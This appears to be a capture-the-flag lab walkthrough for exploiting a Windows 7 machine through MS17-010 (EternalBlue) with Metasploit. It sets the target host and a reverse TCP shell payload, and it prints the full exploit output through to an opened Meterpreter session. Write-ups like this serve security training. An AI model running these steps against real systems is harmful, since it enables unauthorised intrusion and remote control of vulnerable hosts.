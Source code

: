 ### Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
exploit/windows/smb/ms17_010_eternalblue

### Show options and set the one required value. What is the name of this value? (All caps for submission)
setg RHOSTS 10.10.222.187

### Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:
`set payload windows/x64/shell/reverse_tcp`
### With that done, run the exploit!  

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.130.18:4444 
[*] 10.10.48.126:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.48.126:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.48.126:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.48.126:445 - The target is vulnerable.
[*] 10.10.48.126:445 - Connecting to target for exploitation.
[+] 10.10.48.126:445 - Connection established for exploitation.
[+] 10.10.48.126:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.48.126:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.48.126:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.48.126:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.48.126:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.48.126:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.48.126:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.48.126:445 - Sending all but last fragment of exploit packet
[*] 10.10.48.126:445 - Starting non-paged pool grooming
[+] 10.10.48.126:445 - Sending SMBv2 buffers
[+] 10.10.48.126:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.48.126:445 - Sending final SMBv2 buffers.
[*] 10.10.48.126:445 - Sending last fragment of exploit packet!
[*] 10.10.48.126:445 - Receiving response from exploit packet
[+] 10.10.48.126:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.48.126:445 - Sending egg to corrupted connection.
[*] 10.10.48.126:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 10.10.48.126
[*] Meterpreter session 1 opened (10.10.130.18:4444 -> 10.10.48.126:49701) at 2023-05-01 02:13:30 +0000
[+] 10.10.48.126:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.48.126:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.48.126:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > dir
Listing: C:\Windows\system32
============================

```
